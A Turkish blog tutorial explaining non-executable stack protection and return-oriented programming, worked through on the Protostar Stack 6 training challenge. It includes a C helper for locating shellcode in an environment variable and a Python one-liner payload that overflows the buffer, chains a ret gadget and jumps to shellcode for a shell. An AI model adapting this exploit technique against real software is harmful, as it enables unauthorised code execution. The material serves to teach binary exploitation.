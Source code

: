 ```yaml
---
layout: post
title:  "Return-oriented programming (ROP)"
author: "Alp Eren Işık"
date:   2020-02-20
categories: [exploit-development, reverse-engineering, binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `Non-executable (NX) Stack Nedir ?`  

Yazılımcılar `buffer overflow` saldırılarında programın veri alanı veya stack içerisinde kod çalıştırılmasından usanmış olacaklar ki buna bir hal çare bulmaya karar vermişler ve `non-executable (NX)` isimli birşey çıkmış ortaya. Kısaca bahsetmek gerekirse programımızdaki veri alanı veya stack vs. kısımlarının çalıştırılamaz olarak işaretlenmesine yarıyor.

Tabi bu önlem heykır abilerimizi/ablalarımızı durdurmaya yetmemiş ve bu koruma yöntemini atlatmak için ortaya meşhur 2 teknik çıkmış. `ret2libc (Return-to-libc)` ve `ROP (Return-oriented programming)`. Bu yazıda sizlere dilim döndüğünce `ROP` tekniğini anlatmaya çalışacağım. Diğer yöntemi merak edenler için [Protostar Stack 6](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack6.md) ve [Protostar Stack 7](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack7.md) sorularının `ret2libc` saldırısı ile nasıl çözüldüğünü anlattım.

`NOT`: Bu koruma `no-execute` / `never execute` şeklinde adlandırılmakla beraber `Intel` buna `execute disable (XD)` , `ARM` ise `execute never (XN)` ve `Microsoft` da `data execution prevention (DEP)` şeklinde adlandırmalar yapmıştır.

`NOT-2`: Bir programda `NX` koruması olup olmadığını görmek için aşağıdaki komutu kullanabilirsiniz.

    objdump -x program_adi | grep STACK -A 1

NX koruması yok

![nx_yok](/static/img/posts/ROP/nx_yok.png)

NX koruması var

![nx_var](/static/img/posts/ROP/nx_var.png)

# `ROP Nedir ?`

Adından da anlaşıldığı üzere dönüş odaklı programlama anlamına gelmektedir ve NX gibi korumaları atlamak için kullanılan modern bir sömürü tekniğidir.

`ret2libc` tekniğinde programın içinde mevcut olan libc sayesinde shell almıştık  (sanırım `ROP` tekniğinde de `system` adresini bulup shell yürütebiliyoruz veya program içerisinde kullanılmayan bir fonksiyonun adresini bularak çalıştırabiliyoruz). Ancak bazı durumlarda yazılımcılar `libc` kullanımını kısıtladıklarında kullanabileceğimiz en iyi tekniklerden birisi ROP tekniğidir diyebiliriz.

ROP tekniğinde asıl olay `gadget` yani talimatlarda. Bu ufak `gadget`'ları birbirine zincirleyerek hedefe ulaşılmaya çalışılır. (talimatlar genellikle `ret` komutuyla biterler.) Tabi bunun içinde programın mevcut talimatlarının detaylı incelenmesi gerekmektedir. Bununla ilgili [canyoupwn.me](https://canyoupwn.me)'nin youtube kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/HMlFVsSLko8)

Peki neden `ret` komutu ? Bir işlev çağrıldığında stack içerisine bir dönüş adresi yerleştirilir, böylece fonksiyon geri döndüğünde dönüş adresi stackten çıkarılır ve EIP'ye yazılır. Bununla ilgili de liveoverflow kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/zaQVNM3or7k)

    Ret talimatlarının sıralamsı kısaca şöyle

    1-) Stack Pointer adresine bak
    2-) Bu adrese git
    3-) Adresin gösterdiği değeri al (işaret ettiği adresi)
    4-) Bu değeri Instruction Pointer a yaz ve stack pointer adresini/değerini arttır

Sanırım az-biraz temelini anlatabildim. Şimdi çok ufak bir örnek ile (gadget'lar içerisinde boğulmayacak şekilde) nasıl uygulandığına bakalım. İlerleyen zamanlarda belki bol `gadget` içeren bir örnek ekleyebilirim veya ayrı bir yazı yazabilirim :)

Bunun için gene Protostar Stack 6 sorusu üzerinden anlatacağım. Stack 7 sorusu da aynı mantıkda çözülebiliyor.

Yapacağımız şey kısaca `ret` gadget adresini yazdıktan sonra shellcode'umuzun adresini kullanarak EIP'nin üzerine yazmak olacak.

Öncelikle ret kullanabileceğimiz/kullanılmış bir adres bulalım.

![0](/static/img/posts/ROP/0.png)

Adresler geldiğine göre bir de ortam değişkeni olarak bir [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) ekleyelim.

![1](/static/img/posts/ROP/1.png)

Şimdi de bu shellcode'un adresine bir bakalım. Bunun için ufak bir `C` kodu kullanacağız.

    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char* argv[]) {
        printf("%p\n", getenv(argv[1]));
        return 0;
    }

`C` kodumuza argüman olarak SHELLCODE ortam değişkeninin ismini verip adresi öğrenebiliriz. Daha sonra exploitimizi hazırlayıp çalıştırabiliriz.

    (python -c "print 'A'*80 + '\x5f\x83\x04\x08' + '\x9f\xf8\xff\xbf'"; cat) | ./stack6

**

![2](/static/img/posts/ROP/2.png)

Ve exploitimizi başarılı bir şekilde çalıştırdık

`Son Not `: ret adresinden sonra C kodumuzun bize söylediği SHELLCODE adresini yazıyoruz. Yukarıdaki ekran görüntüsünde bir önceki bulduğum shellcode adresim kalmış :/
